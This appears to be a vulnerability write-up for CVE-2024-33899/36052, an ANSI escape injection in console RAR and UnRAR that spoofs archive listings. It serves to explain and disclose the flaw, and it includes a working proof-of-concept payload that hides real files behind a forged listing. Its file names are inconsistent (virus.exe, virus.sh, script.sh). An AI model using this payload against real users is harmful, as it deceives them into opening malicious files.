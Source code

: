 # CVE-2024-33899: ANSI Escape Injection Vulnerability in WinRAR

## Overview

On February 28, 2024, RARLAB released an update for WinRAR, addressing an ANSI escape sequence injection vulnerability identified in the console versions of RAR and UnRAR. This vulnerability, tracked as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows systems, affects versions 6.24 and earlier. It allows attackers to spoof screen output or cause a denial of service on Linux and Unix. This issue was resolved in version 7.00. It is important to note that the GUI version of WinRAR and the UnRAR library were not impacted by this vulnerability.

## Understanding the Vulnerability

### ANSI Escape Sequences

Programs like Vim and Neofetch utilize ANSI escape sequences to modify text and background color, control the cursor, and create graphical user interfaces within the terminal. Although ANSI escape sequences can create advanced terminal programs, they can also be weaponized.

### How WinRAR is Affected

WinRAR provides console versions of RAR and UnRAR, which can be used to create and extract RAR archives. RAR files support comments, which are displayed when listing the contents of the archive using the command `rar l demo.rar`.

#### Vulnerability Demonstration

To check if ANSI escape sequences are filtered out in the comment section, we can use a simple payload that will display "THIS IS GREEN" in green text.

```bash
printf 'Hello \033[32mTHIS IS GREEN\033[0m\007' | rar c demo.rar
```
Upon executing rar l demo.rar, the output shows "THIS IS GREEN" in green, indicating that the comment field does not filter ANSI escape sequences.

Exploitation
This vulnerability can be exploited in various ways. Here, we will demonstrate an exploit suited for WinRAR.

Creating the Exploit
First, we will place our virus.exe file inside a RAR archive:

```bash
$ ls myfolder
virus.sh
$ rar a demo.rar myfolder
```

Next, we will add the following payload to the comment section:
```bash
printf 'Archive: demo.rar\nDetails: RAR 5\n\nAttributes      Size       Date   Time   Name\n----------- ---------  ---------- -----  ---------\n-rw-r--r–        7    2024-05-19  16:26  notvirus.pdf\n-rw-r--r–      193    2024-05-19  16:26  script.sh\n----------- ---------  ---------- -----  ---------\n               200                          2\e[8m' | rar c demo.rar
```

This payload includes a fake listing where virus.sh is replaced with notvirus.pdf. The ANSI escape sequence \e[8m is used to hide all content after the comment section in the output. Consequently, the actual file listing is hidden, and our fake file listing is displayed.

## Result
In the screenshot above, you can see a large gap between the output and the shell prompt. This gap is due to the original file listing being outputted but rendered invisible using \e[8m. While experienced command line users may find this suspicious, less experienced users could easily be tricked.


## Conclusion
The ANSI escape sequence injection vulnerability in the console versions of RAR and UnRAR posed a significant risk, allowing attackers to spoof output and potentially cause denial of service. This issue, identified as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows, was addressed in WinRAR version 7.00. The GUI version of WinRAR and the UnRAR library remain unaffected by this issue.
